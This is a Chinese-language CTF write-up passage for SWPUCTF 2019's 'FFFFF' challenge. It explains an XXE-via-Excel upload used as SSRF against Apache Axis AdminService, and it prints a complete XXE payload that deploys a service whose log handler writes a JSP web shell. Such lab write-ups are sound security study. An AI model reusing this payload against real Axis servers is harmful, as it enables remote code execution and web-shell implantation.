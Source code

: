 ![](https://wulasite.top/mdimage/swpuctf2019/8.png)

![](https://wulasite.top/mdimage/swpuctf2019/9.png)

## FFFFF 

通过这题明显感觉到自己和师傅们的搜索能力的差距。

XXE via Excel: https://xz.aliyun.com/t/3741大概是需要找一个能用的 payload 吧@HPdoger oob收到请求了先测试一下xxe

![](https://wulasite.top/mdimage/swpuctf2019/10.png)

然后用netdoc打文件夹可以得到备份文件，然后打开发现catalina.policy控制了权限，所以这个ctffffff服务打不了flag。所以思路就顺其自然的就打axis。去搜文章可以看到有cve

[http://www.lmxspace.com/2019/07/20/Axis-Rce%E5%88%86%E6%9E%90/](http://www.lmxspace.com/2019/07/20/Axis-Rce分析/)

先打adminservice创建一个RandomService ，并设置路径。同时限制了ip，所以需要xxe去打adminservice。

ssrf参考https://www.freebuf.com/vuls/135318.html 将post转成get请求的

所以就是

```xml
?xml version="1.0" encoding="UTF-8"?>


<!DOCTYPE x [ <!ENTITY xxe SYSTEM "http://127.0.0.1:8080/axis/services/AdminService?method=!--%3E%3Cns1%3Adeployment+xmlns%3Ans1%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2F%22+xmlns%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2F%22+xmlns%3Ajava%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2Fproviders%2Fjava%22%3E%3Cns1%3Aservice+name%3D%22RandomService%22+provider%3D%22java%3ARPC%22%3E+%3CrequestFlow%3E+%3Chandler+type%3D%22RandomLog%22%2F%3E+%3C%2FrequestFlow%3E+%3Cns1%3Aparameter+name%3D%22className%22+value%3D%22java.util.Random%22%2F%3E+%3Cns1%3Aparameter+name%3D%22allowedMethods%22+value%3D%22*%22%2F%3E+%3C%2Fns1%3Aservice%3E+%3Chandler+name%3D%22RandomLog%22+type%3D%22java%3Aorg.apache.axis.handlers.LogHandler%22%3E+%3Cparameter+name%3D%22LogHandler.fileName%22+value%3D%22..%2Fwebapps%2Faxis%2Fshell.jsp%22%2F%3E+%3Cparameter+name%3D%22LogHandler.writeToConsole%22+value%3D%22false%22%2F%3E+%3C%2Fhandler%3E+%3C%2Fns1%3Adeployment"> ]>
<x>&xxe;</x>
```

上传就可以创建service了

![](https://wulasite.top/mdimage/swpuctf2019/11.png)

然后写入shell

![](https://wulasite.top/mdimage/swpuctf2019/12.png)

获取flag

![](https://wulasite.top/mdimage/swpuctf2019/13.png)



## 出题人不知道
